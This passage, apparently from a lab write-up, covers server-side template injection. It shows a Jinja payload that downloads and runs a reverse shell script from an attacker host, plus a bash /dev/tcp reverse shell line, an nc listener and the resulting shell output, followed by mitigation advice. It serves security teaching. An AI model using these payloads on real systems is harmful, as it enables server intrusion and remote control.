 
---

### Scaling to a Reverse Shell 💀

The ultimate goal of an RCE vulnerability is to obtain an interactive shell on the server, allowing an attacker to execute persistent commands, explore the file system, and escalate privileges. To achieve this, an indirect method was used that bypasses common security restrictions.

#### Successful Reverse Shell Execution

To get a shell, a "download and execute" technique was used, which instructs the vulnerable server to download a malicious script from the attacker's server and then run it.

1. **Script Creation (`bash.sh`):** On the attacker's machine (IP: `192.168.0.19`), a `bash.sh` script with the reverse shell command was created.         `Bash     #!/bin/bash     bash -i >& /dev/tcp/192.168.0.19/4445 0>&1`        
    
2. **Download Server:** A simple HTTP server was started on the attacker's machine to host the `bash.sh` script.         `Bash     python3 -m http.server 8000`        
    
3. **Injection Payload:** The following SSTI payload was injected into the vulnerable application. The command tells the server to use `wget` to download the script from the attacker's IP and then execute `bash` to initiate the shell.             `{{ cycler.__init__.__globals__.os.popen('wget http://192.168.0.19:8000/bash.sh -O /tmp/bash.sh && bash /tmp/bash.sh').read() }}`        
    
4. **Result and Shell Acquisition:** Before injecting the payload, the attacker set up a listener with `nc -lvnp 4445`. Upon payload execution, the vulnerable server downloaded and ran the script, and the reverse shell connection was received on the attacker's terminal.             `listening on [any] 4445 ...     connect to [192.168.0.19] from (UNKNOWN) [192.168.0.16] 3459     id     uid=33(www-data) gid=33(www-data) groups=33(www-data)`    
    

---

### 4. Mitigation and Containment

SSTI mitigation is critical for any web application. The primary solution is to **never allow user input to be directly processed by a template engine**.

1. **Input Validation:** Strictly filter and validate user input to ensure it doesn't contain template syntax (like `{{` and `}}`).
    
2. **Sanitization:** Instead of directly rendering the input, it should be sanitized or escaped. This involves converting special characters into their equivalent HTML entities, preventing the template engine from evaluating them.
    
3. **Use of Separate Contexts:** Run template engines in isolated environments or with limited permissions.
    

---

### 5. Automated Exploitation with SSTImap

In addition to the manual exploitation process, an automated tool called **SSTImap** was used to confirm and accelerate the vulnerability discovery. SSTImap is a specialized tool designed to automatically detect and exploit SSTI vulnerabilities.

